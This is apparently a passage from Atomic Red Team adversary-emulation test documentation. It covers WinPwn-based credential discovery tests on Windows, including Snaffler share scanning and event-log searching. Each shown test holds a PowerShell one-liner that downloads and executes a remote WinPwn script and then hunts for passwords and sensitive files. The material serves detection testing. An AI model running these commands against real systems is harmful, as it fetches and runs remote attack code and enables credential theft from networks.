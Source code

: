 
#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
sensitivefiles -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - Snaffler
Check Domain Network-Shares for cleartext passwords using Snaffler function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** fdd0c913-714b-4c13-b40f-1824d6c015f2






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Snaffler -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #9 - WinPwn - powershellsensitive
Check Powershell event logs for credentials or other sensitive information via winpwn powershellsensitive function.

**Supported Platforms:** Windows


**auto_generated_guid:** 75f66e03-37d3-4704-9520-3210efbe33ce






#### Attack Commands: Run with `powershell`! 
